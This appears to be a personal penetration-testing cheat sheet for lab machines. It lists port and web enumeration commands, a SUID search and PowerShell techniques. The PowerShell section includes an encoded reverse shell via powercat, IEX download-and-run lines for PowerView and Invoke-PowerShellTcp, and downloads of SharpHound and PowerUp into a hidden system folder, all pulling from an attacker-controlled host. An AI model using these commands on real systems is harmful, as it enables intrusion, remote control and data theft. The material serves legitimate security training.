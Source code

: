 # Commands

## vi

```sh
kali@kali:/etc/vim$ cat /etc/vim/vimrc.local 
set paste
set cursorline
set number
```

## Enumeration 

```sh
$ sudo masscan -p1-65535 10.10.10.77 --rate=1000 -e tun0 > ports
$ ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')
$ sudo nmap -Pn -sV -sC -p$ports 10.10.10.77 -oA nmap
```

## Web

```sh
$ curl -v -X OPTIONS http://192.168.1.105/test

$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -l -t 30 -e -k -x .html,.php -u http://192.168.1.159:80 -o gob_common_80.txt
$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -l -t 30 -e -k -x .html,.php -u http://192.168.1.159:80 -o go_medium_80.txt

$ nikto -host 192.168.1.159:8080 | tee nikto_192.168.1.159_8080.txt
```

## Find

```sh
$ find / -perm -4000 2> /dev/null
```

## Powershell

### Encoded commands

```sh
$command="ls"
$Encoded = [convert]::ToBase64String([System.Text.encoding]::Unicode.GetBytes($command))
powershell.exe -encoded $Encoded
```
Reverse Shell

```sh
$command={IEX(New-Object System.Net.WebClient).DownloadString('http://10.13.14.3:9000/powercat.ps1'); powercat -c 10.13.14.3 -p 1234 -e cmd}
$Encoded = [convert]::ToBase64String([System.Text.encoding]::Unicode.GetBytes($command))

$command = 'IEX (New-Object Net.WebClient).DownloadString("http://10.13.14.3:9000/Invoke-PowerShellTcpRun.ps1")'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
```

Port Scanning

```sh
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("localhost", $_)) "Port $_ is open!")) 2>$null
```

Downloading

```sh
$url="http://10.10.14.13:9000/SharpHound.exe"
$output="C:\Windows\System32\spool\drivers\color\SharpHound.exe"
(New-object system.net.webclient).downloadfile($url,$output)

(New-Object System.Net.WebClient).DownloadFile("http://10.10.14.13:9000/PowerUp.ps1", "C:\Windows\System32\spool\drivers\color\PowerUp.ps1")
```

Reflective Downloading

```sh
$ IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.7:9000/PowerView.ps1')
```

Size of Folder

```sh
$ "{0} MB" -f ((Get-ChildItem C:\users\ -Recurse -force | Measure-Object -Property Length -Sum -ErrorAction Stop).Sum / 1MB)
```

Compress

```sh
$ Compress-Archive -LiteralPath <PathToFolder> -DestinationPath <PathToDestination>
```
Find Files

```sh
$ gci -force -recurse -file -ea silentlycontinue  

$ Get-ChildItem -Path C:\ -Include *.doc,*.docx -File -Recurse -force -ErrorAction SilentlyContinue

$ FindDate=Get-Date -Year 2016 -Month 06 -Day 24
$ Get-ChildItem -Path C:\ -Include *.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue | Where-Object { $_.LastWriteTime -ge $FindDate }
$ Get-ChildItem -Path C:\ -Include *.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue | Where-Object { $_.LastWriteTime -ge $FindDate -and $_.LastWriteTime -le $Finddate.adddays(1) }
```

## Useful links

<https://github.com/swisskyrepo/PayloadsAllTheThings>
<https://book.hacktricks.xyz/>
<https://gtfobins.github.io/>
<https://github.com/LOLBAS-Project/LOLBAS/blob/master/README.md>
<https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf>


